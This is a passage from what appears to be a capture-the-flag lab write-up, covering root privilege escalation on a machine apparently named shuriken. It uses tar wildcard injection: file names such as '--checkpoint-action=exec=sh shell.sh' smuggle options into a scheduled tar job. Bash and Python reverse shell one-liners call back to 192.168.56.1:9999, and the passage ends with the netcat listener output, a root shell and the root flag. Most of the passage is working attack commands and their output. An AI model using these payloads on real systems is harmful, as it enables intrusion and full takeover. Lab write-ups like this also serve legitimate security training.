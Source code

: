 Create the files:

```

echo "bash -i >& /dev/tcp/192.168.56.1/9999 0>&1" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh" 
echo "" > "--checkpoint=1"

ls
--checkpoint-action=exec=sh shell.sh
--checkpoint=1
Daily Job Progress Report Format.pdf
Employee Search Progress Report.pdf
shell.sh
```

The bash reverse shell didn't work, switched to python reverse shell:

```
echo "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.1\",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" > shell.sh
```

Start the listener

```
crazyeights@es-base:~$ nc -lvp 9999
    listening on [any] 9999 ...
```

Waiting two minutes....

```
crazyeights@es-base:~$ nc -lvp 9999
listening on [any] 9999 ...
connect to [192.168.56.1] from broadcast.shuriken.local [192.168.56.129] 51784
/bin/sh: 0: can't access tty; job control turned off
 # id
uid=0(root) gid=0(root) groups=0(root)
 # cd /root
 # ls
root.txt
 # cat root.txt

d0f9655a4454ac54e3002265d40b2edd
```

#### Root Flag: 🥳
